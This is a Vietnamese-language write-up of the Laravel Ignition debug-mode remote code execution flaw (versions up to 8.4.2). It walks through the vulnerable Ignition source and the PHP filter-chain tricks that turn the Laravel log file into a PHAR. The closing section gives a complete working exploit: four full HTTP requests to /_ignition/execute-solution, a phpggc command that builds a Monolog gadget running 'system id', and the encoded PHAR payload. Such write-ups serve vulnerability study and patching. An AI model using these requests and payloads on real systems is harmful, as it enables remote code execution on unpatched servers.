




# Laravel <= v8.4.2 debug mode: Remote code execution
Laravel 6 trở lên sử dụng [Ignition](https://github.com/facade/ignition) để hiển thị debug. Ignition được bật tự động trong Laravel 6 trở lên.

Ở đây ta có 1 file `welcome.blade.php` có nội dung là `{{ $username }}`, nếu sử dụng một biến mà không được define thì nó sẽ trả về một lỗi như sau : 




Khi ta click vào `Make variable Optional` thì nó sẽ tự động replace `{{ $username }}` thành `{{ $username ? '' }}`. Kiểm tra log thì ta thấy được request như sau:



Dưới đây là code của hàm xử lý `/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php` 
```php
<?php

namespace Facade\Ignition\Solutions;

use Facade\IgnitionContracts\RunnableSolution;
use Illuminate\Support\Facades\Blade;

class MakeViewVariableOptionalSolution implements RunnableSolution
{
    /** @var string */
    private $variableName;

    /** @var string */
    private $viewFile;

    public function __construct($variableName = null, $viewFile = null)
    {
        $this->variableName = $variableName;
        $this->viewFile = $viewFile;
    }

    public function getSolutionTitle(): string
    {
        return "$$this->variableName is undefined";
    }

    public function getDocumentationLinks(): array
    {
        return [];
    }

    public function getSolutionActionDescription(): string
    {
        $output = [
            'Make the variable optional in the blade template.',
            "Replace `{{ $$this->variableName }}` with `{{ $$this->variableName ?? '' }}`",
        ];

        return implode(PHP_EOL, $output);
    }

    public function getRunButtonText(): string
    {
        return 'Make variable optional';
    }

    public function getSolutionDescription(): string
    {
        return '';
    }

    public function getRunParameters(): array
    {
        return [
            'variableName' => $this->variableName,
            'viewFile' => $this->viewFile,
        ];
    }

    public function isRunnable(array $parameters = [])
    {
        return $this->makeOptional($this->getRunParameters()) !== false;
    }

    public function run(array $parameters = [])
    {
        $output = $this->makeOptional($parameters);
        if ($output !== false) {
            file_put_contents($parameters['viewFile'], $output);
        }
    }

    public function makeOptional(array $parameters = [])
    {
        $originalContents = file_get_contents($parameters['viewFile']); // [1]
        $newContents = str_replace('$'.$parameters['variableName'], '$'.$parameters['variableName']." ?? ''", $originalContents);

        $originalTokens = token_get_all(Blade::compileString($originalContents));  // [2]
        $newTokens = token_get_all(Blade::compileString($newContents));

        $expectedTokens = $this->generateExpectedTokens($originalTokens, $parameters['variableName']);

        if ($expectedTokens !== $newTokens) { // [3]
            return false;
        }

        return $newContents;
    }

    protected function generateExpectedTokens(array $originalTokens, string $variableName): array
    {
        $expectedTokens = [];
        foreach ($originalTokens as $token) {
            $expectedTokens[] = $token;
            if ($token[0] === T_VARIABLE && $token[1] === '$'.$variableName) {
                $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                $expectedTokens[] = [T_COALESCE, '??', $token[2]];
                $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                $expectedTokens[] = [T_CONSTANT_ENCAPSED_STRING, "''", $token[2]];
            }
        }

        return $expectedTokens;
    }
}

```

Tiến hành debug hàm xử lí của  các vị trí `[1]` , `[2]`  



- Sau khi đọc được file path truyền vào `[1]` và thay thế `$variableName` thành `variableName ?? "`
- Cả file ban đầu và file mới đều sẽ được mã hóa `[2]` và file ban đầu sẽ được thay thế bằng nội dung mới của nó.
-  Nếu không, `makeOptional` sẽ trả về `false` `[3]` và file mới sẽ không được ghi.

=> Do đó, không thể làm được gì nhiều khi sử dụng `variableName`

Input variable duy nhất còn lại là `viewFile`, từ đoạn code trên có thể viết lại đoạn code rút gọn như sau:

```php
$contents = file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```

Đoạn code này lấy nội dung lấy từ `viewFile` rồi chèn trở lại `viewFile`. 

Ta có thể làm gì với đoạn code trên?

# Log file to PHAR
## PHP wrappers: changing a file

Ta có thể thay đổi nội dung của file bằng cách sử dụng `PHP wrappers`

```bash
$ echo test | base64  > /path/to/file.txt
$ cat /path/to/file.txt 
ZEdWemRBbz0K
```

```bash
$f = 'php://filter/convert.base64-decode/resource=/path/to/file.txt'; 
# Reads /path/to/file.txt, base64-decodes it, returns the result 
$contents = file_get_contents($f); 
# Base64-decodes $contents, then writes the result to /path/to/file.txt file_put_contents($f, $contents);
```

```
$ cat /path/to/file.txt 
test
```

Vậy có thể sửa đổi nội dung file theo cách này, tuy nhiên chúng ta cần phải sửa đổi nội dung file chỉ được với 1 dòng duy nhất

```bash
# To base64-decode once, use:
$f = 'php://filter/read=convert.base64-decode/resource=/path/to/file.txt'; 
# OR 
$f = 'php://filter/write=convert.base64-decode/resource=/path/to/file.txt';
```

Thậm chí file chứa những charset không nằm trong base64 (badchars) thì PHP bỏ qua những badchars này và vẫn decode như bình thường

```bash
$ echo ':;.!!!!!ZEdWemRBbz0K:;.!!!!!' > /path/to/file.txt
```

```bash
$f = 'php://filter/read=convert.base64-decode|convert.base64-decode/resource=/path/to/file.txt';
$contents = file_get_contents($f); 
file_put_contents($f, $contents); 
```

```bash
$ cat /path/to/file.txt
test
```


**Ý tưởng:**
Vậy giờ chúng ta cần phải tìm được 1 file mà mình có thể control được thông tin ghi vào file, và  ở đây chính là file log mặc định của Laravel

## Write the log file

Theo mặc định, file log của Laravel chứa mọi lỗi PHP và stack trace, được lưu trong `storage/log/laravel.log`. Cố gắng tạo ra lỗi để được ghi lỗi vào file log.

```
[2021-01-11 12:39:44] local.ERROR: file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory at /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75) [stacktrace] #0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError() #1 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents() #2 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional() #3 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run() #4 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke() [...] #32 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\\Pipeline\\Pipeline->Illuminate\\Pipeline\\{closure}() #33 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\\Pipeline\\Pipeline->then() #34 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\\Foundation\\Http\\Kernel->sendRequestThroughRouter() #35 /work/pentest/laravel/laravel/public/index.php(52): Illuminate\\Foundation\\Http\\Kernel->handle() #36 /work/pentest/laravel/laravel/server.php(21): require_once('/work/pentest/l...') #37 {main} "}
```

Vậy là chúng ta có thể có thể đưa nội dung tùy ý vào một file. Sau đó chuyển đổi file log thành file PHAR và sử dụng phar để RCE

*Tản mạn về file PHAR*

Phar file trong PHP tương tự như Jar file trong Java là một package format cho phép ta gói nhiều các tập code, các thư viện, hình ảnh,… vào một tệp

Cấu trúc một Phar file gồm có:

-   Stub: đơn giản chỉ là một file PHP và ít nhất phải chứa đoạn code sau: `<?php __HALT_COMPILER();`
-   A manifest (bảng kê khai): miêu tả khái quát nội dung sẽ có trong file
-   Nội dung chính của file
-   Chữ ký: để kiểm tra tính toàn vẹn (cái này là optional, có hay không cũng được)

Điểm đáng chú ý nhất trong cấu trúc của một Phar file đó là phần _manifest_, theo Manual của PHP thì trong mỗi một Phar file, phần _manifest_ có chứa các thông tin sau:



Dòng được bôi vàng cho biết phần manifest này sẽ giữ các Meta-data đã được serialize. Một điều thú vị là nếu một filesystem function gọi đến một Phar file thì tất cả các Meta-data trên sẽ được tự động unserialize.

Dưới đây là danh sách các filesystem function có thể trigger lỗ hổng này:


Theo ra thấy thì biến `viewFile` được gọi thông qua 2 hàm `file_get_contents()`, `file_put_contents()` và đều nằm  trong filesystem function. Vậy đã có điều kiện cần để `deserialize`.
Tuy rằng nghe có vẻ dễ như vậy nhưng thật ra có rất nhiều vấn đề.

## Convert file

Như ở trên, ta biết rằng PHP sẽ bỏ qua bất kỳ badchar nào khi sử dụng base64-decoding. Điều này đúng, ngoại trừ một character: `=`. Nếu ta sử dụng `base64-decode filter` một chuỗi có chứa `=` ở giữa, PHP sẽ tạo ra lỗi và không trả về kết quả nào.

Chúng ta có thể khắc phục được điều này nếu chúng ta có thể control được nội dung file đó. Tuy nhiên, payload chúng ta đưa vào file log chỉ là một phần rất nhỏ của nó. Ở mỗi đoạn log sẽ có 1 đoạn prefix (timestamp) -> Payload -> suffix (stack strace). Hơn nữa, payload lại xuất hiện 2 lần trong file log như ví dụ dưới đây:

```log
[2021-01-13 11:09:46] local.ERROR: file_get_contents(PAYLOAD): failed to open stream: No such file or directory {"exception":"
[object] (ErrorException(code: 0): file_get_contents(PAYLOAD): failed to open stream: No such file or directory at /var/www/html/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError(2, 'file_get_conten...', '/var/www/html/v...', 75, Array)
```

Cách để loại bỏ các phần dư thừa để lấy được Payload. Ví dụ với trường hợp như sau:

```none
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

Cách mà họ sử dụng là sử dụng chuyển đổi bảng mã UTF-16 sang UTF-8. Vì cứ 2 byte thì sẽ được 1 char theo mã UTF-16 nên convert sang UTF-8 thì `P\0` -> `P`. Còn các cặp 2 byte ở prefix, midfix, suffix sẽ bị convert thành junk char (ký tự rác) giống như dưới đây (và phần junk này sau đó sẽ bị loại bỏ ở bước base64 decoding):

```bash
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[Some suffix ]' > /tmp/test.txt
```

```php
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD浛摩楦嵸PAYLOAD卛浯⁥畳晦硩崠
```

Ok, giờ ta đã giữ được nội dung của payload, bước tiếp theo là loại bỏ những ký tự nào không phải là ASCII là xong. Tuy nhiên có một vấn đề là nội dung Payload lại hiển thị 2 lần, chúng ta cần phải loại bỏ 1 cái đi mới đúng cấu trúc của file PHAR. Để giải quyết vấn đề này ta lại nhớ lại là UTF-16 làm việc với hai byte, nên chỉ cần thêm 1 byte vào phần giữa Payload 1 và Payload 2 (như dưới đây là thêm `X` vào sau `D\0`) thì byte aligment của Payload thứ 2 sẽ bị lệch, dẫn đến Payload 2 bị convert thành junk chars hoặc nếu ta căn chỉnh payload thứ 1 sai thì payload thứ 2 vẫn có thể convert đúng :

```bash
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0X[midfix]P\0A\0Y\0L\0O\0A\0D\0X[Some suffix ]' > /tmp/test.txt
```

```php
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD存業晤硩偝䄀夀䰀伀䄀䐀堀卛浯⁥畳晦硩崠
```

Kết hợp những điều trên với `base64-decoding`  để encode payload:

```shell
$ echo -n TEST! | base64 | sed -E 's/./\0\\0/g'
V\0E\0V\0T\0V\0C\0E\0=\0
# Thêm ký tự X vào sau payload
$ echo -ne '[Some prefix ]V\0E\0V\0T\0V\0C\0E\0=\0X[midfix]V\0E\0V\0T\0V\0C\0E\0=\0X[Some suffix ]' > /tmp/test.txt
```

```bash
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8|convert.base64-decode/resource=/tmp/test.txt');
TEST!
```

Tuy nhiên khi chạy thì lại không thể load 1 file có `null byte`  và sinh ra lỗi

```
PHP Warning:  file_get_contents() expects parameter 1 to be a valid path, string given in php shell code on line 1
```

nên sẽ phải dùng thêm 1 filter nữa là [convert.quoted-printable-decode](https://www.php.net/manual/en/filters.convert.php#filters.covert.quoted-printable) và các ký tự NULL byte sẽ encode thành `=00`.
(*`convert.quoted-printable-decode` là một bộ lọc trong PHP dùng để giải mã dữ liệu được mã hóa bằng Quoted-Printable. Quoted-Printable là một định dạng mã hóa dữ liệu văn bản, được sử dụng để truyền dữ liệu qua đường truyền có hạn chế, như email. Nó cho phép các ký tự đặc biệt và ký tự có mã ASCII lớn hơn 127 được mã hóa dưới dạng mã số và gắn vào sau dấu "=" trong văn bản mã hóa*)

Vậy, kết luận chúng ta sẽ có get chain cuối cùng là:

```php
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

## Complete exploit steps

1. Clear log

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 311
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "whateverYouWant", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```


2. Payload

Tạo payload: 

```
php -d'phar.readonly=0' ./phpggc/phpggc Monolog/RCE1 system 'id' --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g; s/$/=00/g'
```

Để hiểu rõ hơn, ta có thể phân tích các đoạn lệnh của lệnh trên:

-   `s/./\0=00/g`: Thay từng ký tự bằng chính nó và một chuỗi `=00`. Ví dụ, nếu văn bản đầu vào là "abc", kết quả sẽ là "a=00b=00c=00".
-   `s/$/=00/g`: Thêm chuỗi `=00` vào cuối dòng.


```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 2595
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "whateverYouWant", "viewFile": "P=00D=009=00w=00a=00H=00A=00g=00X=001=009=00I=00Q=00U=00x=00U=00X=000=00N=00P=00T=00V=00B=00J=00T=00E=00V=00S=00K=00C=00k=007=00I=00D=008=00+=00D=00Q=00q=00K=00A=00Q=00A=00A=00A=00Q=00A=00A=00A=00B=00E=00A=00A=00A=00A=00B=00A=00A=00A=00A=00A=00A=00B=00U=00A=00Q=00A=00A=00T=00z=00o=00z=00M=00j=00o=00i=00T=00W=009=00u=00b=002=00x=00v=00Z=001=00x=00I=00Y=00W=005=00k=00b=00G=00V=00y=00X=00F=00N=005=00c=002=00x=00v=00Z=001=00V=00k=00c=00E=00h=00h=00b=00m=00R=00s=00Z=00X=00I=00i=00O=00j=00E=006=00e=003=00M=006=00O=00T=00o=00i=00A=00C=00o=00A=00c=002=009=00j=00a=002=00V=000=00I=00j=00t=00P=00O=00j=00I=005=00O=00i=00J=00N=00b=002=005=00v=00b=00G=009=00n=00X=00E=00h=00h=00b=00m=00R=00s=00Z=00X=00J=00c=00Q=00n=00V=00m=00Z=00m=00V=00y=00S=00G=00F=00u=00Z=00G=00x=00l=00c=00i=00I=006=00N=00z=00p=007=00c=00z=00o=00x=00M=00D=00o=00i=00A=00C=00o=00A=00a=00G=00F=00u=00Z=00G=00x=00l=00c=00i=00I=007=00c=00j=00o=00y=00O=003=00M=006=00M=00T=00M=006=00I=00g=00A=00q=00A=00G=00J=001=00Z=00m=00Z=00l=00c=00l=00N=00p=00e=00m=00U=00i=00O=002=00k=006=00L=00T=00E=007=00c=00z=00o=005=00O=00i=00I=00A=00K=00g=00B=00i=00d=00W=00Z=00m=00Z=00X=00I=00i=00O=002=00E=006=00M=00T=00p=007=00a=00T=00o=00w=00O=002=00E=006=00M=00j=00p=007=00a=00T=00o=00w=00O=003=00M=006=00M=00j=00o=00i=00a=00W=00Q=00i=00O=003=00M=006=00N=00T=00o=00i=00b=00G=00V=002=00Z=00W=00w=00i=00O=000=004=007=00f=00X=001=00z=00O=00j=00g=006=00I=00g=00A=00q=00A=00G=00x=00l=00d=00m=00V=00s=00I=00j=00t=00O=00O=003=00M=006=00M=00T=00Q=006=00I=00g=00A=00q=00A=00G=00l=00u=00a=00X=00R=00p=00Y=00W=00x=00p=00e=00m=00V=00k=00I=00j=00t=00i=00O=00j=00E=007=00c=00z=00o=00x=00N=00D=00o=00i=00A=00C=00o=00A=00Y=00n=00V=00m=00Z=00m=00V=00y=00T=00G=00l=00t=00a=00X=00Q=00i=00O=002=00k=006=00L=00T=00E=007=00c=00z=00o=00x=00M=00z=00o=00i=00A=00C=00o=00A=00c=00H=00J=00v=00Y=002=00V=00z=00c=002=009=00y=00c=00y=00I=007=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00c=00z=00o=003=00O=00i=00J=00j=00d=00X=00J=00y=00Z=00W=005=000=00I=00j=00t=00p=00O=00j=00E=007=00c=00z=00o=002=00O=00i=00J=00z=00e=00X=00N=000=00Z=00W=000=00i=00O=003=001=009=00f=00Q=00g=00A=00A=00A=00B=000=00Z=00X=00N=000=00L=00n=00R=004=00d=00A=00Q=00A=00A=00A=00B=006=00D=00a=00x=00j=00B=00A=00A=00A=00A=00A=00x=00+=00f=009=00i=00k=00A=00Q=00A=00A=00A=00A=00A=00A=00A=00H=00R=00l=00c=003=00R=00p=00v=00U=00V=00Q=00s=00t=00T=00V=00R=00n=00H=009=005=00v=00T=00+=00u=00c=005=00v=009=00l=003=00S=00P=00w=00I=00A=00A=00A=00B=00H=00Q=00k=001=00C=00=00"}}
```

3. Convert file log sang file PHAR

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 281
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "whateverYouWant", "viewFile": "php://filter/read=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

4. Chạy PHAR deserialization

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 178
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "whateverYouWant", "viewFile": "phar://../storage/logs/laravel.log"}}
```
